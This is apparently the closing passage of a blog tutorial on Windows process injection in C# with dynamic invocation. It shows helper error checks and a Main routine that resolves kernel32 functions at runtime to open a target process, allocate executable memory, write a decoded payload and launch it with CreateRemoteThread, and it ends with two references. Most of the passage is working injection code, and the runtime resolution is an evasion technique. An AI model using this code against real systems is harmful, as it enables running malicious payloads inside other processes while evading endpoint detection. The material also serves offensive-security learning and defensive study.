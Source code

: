 ```cs
            Console.WriteLine("Error: {0} is null", label);
            Environment.Exit(1);
        }
    }
    public void CheckNullPtr(IntPtr test, string label) {
        if (test == IntPtr.Zero) {
            Console.WriteLine("Error: {0} is INtPtr.Zero", label);
            Environment.Exit(1);
        }
    }
}
```

This will allow us to refine the code inside the `Main` in this one:

```cs
DLL k32 = new DLL("kernel32.dll");
           
var openProcess = k32.ChaseFunction("OpenProcess") as OpenProcess;
var hProcess = openProcess(0x001F0FFF, false, int.Parse(args[0]));

var virtualAllocEx = k32.ChaseFunction("VirtualAllocEx") as VirtualAllocEx;
var alloc = virtualAllocEx(hProcess, IntPtr.Zero, (UInt32)decoded.Length, 0x3000, 0x40);

UInt32 bytesWritten = 0;
var writeProcessMemory = k32.ChaseFunction("WriteProcessMemory") as WriteProcessMemory;
writeProcessMemory(hProcess, alloc, decoded, (UInt32)decoded.Length, out bytesWritten);

var createRemoteThread = k32.ChaseFunction("CreateRemoteThread") as CreateRemoteThread;
createRemoteThread(hProcess, IntPtr.Zero, 0, alloc, IntPtr.Zero, 0, IntPtr.Zero);
```

I find this example way cleaner that the previous one, especially for long programs.

# References

* [https://rastamouse.me/blog/process-injection-dinvoke/](https://rastamouse.me/blog/process-injection-dinvoke/)
* [https://thewover.github.io/Dynamic-Invoke/](https://thewover.github.io/Dynamic-Invoke/)
